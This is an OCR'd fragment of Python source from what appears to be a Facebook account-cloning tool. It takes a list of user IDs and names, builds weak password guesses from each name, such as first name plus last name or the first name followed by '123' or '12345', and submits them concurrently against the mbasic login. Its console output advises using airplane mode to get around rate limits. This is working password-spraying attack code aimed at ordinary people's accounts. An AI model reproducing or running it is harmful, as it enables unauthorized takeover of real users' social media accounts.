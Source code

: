 				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						fi , la = name.split(' ')

						first = fi.lower()

						last = la.lower()

						if len(xz) == 1:

							pwx = [first+' '+last, first+last, first+'123', first+'12345']

						elif len(xz) == 2:

							pwx = [first+' '+last, first+last, first+'123', first+'12345']

						elif len(xz) == 3:

							pwx = [first+' '+last, first+last, first+'123', first+'12345']

						elif len(xz) == 4:

							pwx = [first+' '+last, first+last, first+'123', first+'12345']

						else:

							pwx = [first+' '+last, first+last, first+'123', first+'12345']

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

						pass

			os.remove(self.apk)

			hasil(ok,cp)

		elif yan in ('2', '02'):

			os.system("clear")

			print(banner)

			time.sleep(1)

			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')

			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))

			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')

			print(50*"\033[1;97m_")

			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')

			print(50*"\033[1;97m_")

			with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
